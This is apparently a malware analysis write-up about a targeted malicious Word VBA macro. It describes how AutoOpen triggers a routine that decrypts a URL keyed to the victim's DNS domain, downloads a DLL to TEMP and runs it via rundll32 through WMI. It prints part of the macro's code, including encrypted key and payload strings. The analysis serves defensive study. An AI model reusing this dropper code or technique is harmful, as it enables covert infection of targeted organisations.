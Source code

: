 
## Malicious VBA

The VBA is targeted towards very specific targets. The code is in the
`NewMacros` module, and it execution on opening by implementing `AutoOpen()`,
which simply calls `RunMe`.

The `RunMe` function takes the following actions:

  1. Initializes and attempts to decrypt a master key using the user’s domain as a key (`keyVar = UCase(Environ("USERDNSDOMAIN"))`).
  2. Uses the master key to decrypt a string url.
  3. Issue a GET request using `Microsoft.XMLHTTP` to get the url decrypted in 2, saving it to a file in `Environ("TEMP")`.
  4. Creates a WMI object to create a rundll32.exe process to load the dll.

### 1\. Decrypt Key with DNS Domain

#### Code

The malware will need to download the next stage binary, but as an anti-
forensics measure, it keeps the url for that binary encrypted, and the VBA
contains the routines to decrypt it. The master key is encrypted 19 times,
presumably with different target domains. So the code gets the current domain
using `keyVar = UCase(Environ("USERDNSDOMAIN"))`, and then tries to decrypt
each of the 20 binaries objects hardcoded as “keySchedule”. If none of them
can be decrypted, and error message is thrown, and the code exits.

The code looks like this:

    
    
    Sub RunMe()
        Dim s, keyVar, sPlaintext As String
        Dim masterKey As Variant
        keyVar = UCase(Environ("USERDNSDOMAIN"))
        Dim payload As String
        payload = ""
        Dim i As Integer
    
        Dim keyScheduleBytes() As Variant
        Dim myURL As String
        Dim keySchedule(19) As String
        keySchedule(0) = "i+6d45jyleWY9cH3h/yB6oeljPOT/tih3rU="
    '...snip...'
        keySchedule(19) = "keWR7ZPunued+N3yjv+M+Imqj/CK9tes1qo="
        payload = payload & "uerr6erm67Xh86nk8rT19r/yofGx+u7s663+oLDpruevrvWss+64va7xpvHn"
        payload = payload & "or/n5eO+/qfxpqGrtOK0tfap9f3r8rLns/r996Tivq+34beyqA=="
        ReDim keyScheduleBytes(UBound(keySchedule))
        For i = 0 To UBound(keySchedule)
            keyScheduleBytes(i) = Decode64(keySchedule(i))
        Next
    
        masterKey = TryAllKeys(keyVar, keyScheduleBytes)
    